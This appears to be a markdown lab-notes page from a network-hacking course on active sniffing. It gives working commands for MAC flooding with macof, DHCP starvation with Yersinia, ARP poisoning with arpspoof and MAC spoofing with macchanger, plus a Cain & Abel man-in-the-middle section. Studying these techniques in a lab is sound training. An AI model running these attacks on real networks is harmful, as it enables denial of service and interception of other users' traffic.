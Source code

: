 **References**    
- [Bettercap Over Wi-Fi – Sniffing HTTPS with SSLSniff](https://charlesreid1.com/wiki/MITM_Labs/Bettercap_Over_Wifi#Sniffing_HTTPS_with_SSLSniff)

---

### 1. Perform Active Sniffing
Active sniffing involves injecting ARP traffic into a LAN to capture traffic on switched networks.

#### 1.1 Perform MAC Flooding using macof
MAC flooding forces a switch to act like a hub, allowing attackers to sniff traffic.
- `sudo macof -i eth0 -n 10`
  - `-i` interface
  - `-n` number of packets to send
- targeting an  IP address
  - `sudo macof -i ens33 -d 192.168.18.1`
 
#### 1.2 Perform a DHCP Starvation Attack using Yersinia
DHCP starvation floods a server with requests, exhausting available IPs and causing a DoS.    
Start Yersinia in interactive mode:
- `sudo yersinia -I`
- `h` → help
- `q` → exit help
- `F2` → open DHCP attack mode
- `x` → list attack options
- `1` → conduct DHCP starvation attack

#### 1.3 Perform ARP Poisoning using arpspoof
ARP poisoning redirects traffic between two machines through the attacker.
- `arpspoof -i eth0 -t 192.168.18.1 192.168.18.14`
  - `192.168.18.14` is the target IP
Now poison the other machine
- `arpspoof -i eth0 -t 192.168.18.14 192.168.18.1`

#### 1.4 Man-in-the-Middle Attack using Cain & Abel
Cain & Abel enables ARP poisoning and traffic interception to perform MITM attacks on a local network.    
<img width="580" height="233" alt="image" src="https://github.com/user-attachments/assets/6001ee23-47de-47ae-8054-aa558e8212a6" />
<img width="651" height="456" alt="image" src="https://github.com/user-attachments/assets/73e84e38-304f-4216-acdd-f5b0ed2a4670" />

#### 1.5 Spoof MAC Address using TMAC and SMAC
Tools for spoofing MAC addresses on Windows:
- [TMAC](https://technitium.com/tmac/)
- [SMAC](https://smac-tool.com/)

#### 1.6 Spoof Linux MAC using macchanger
Change MAC address on Linux with macchanger:
- `ifconfig eth0 down`
- `macchanger -r eth0`
- `ifconfig eth0 up`
View the current MAC address:
- `macchanger -s eth0`

---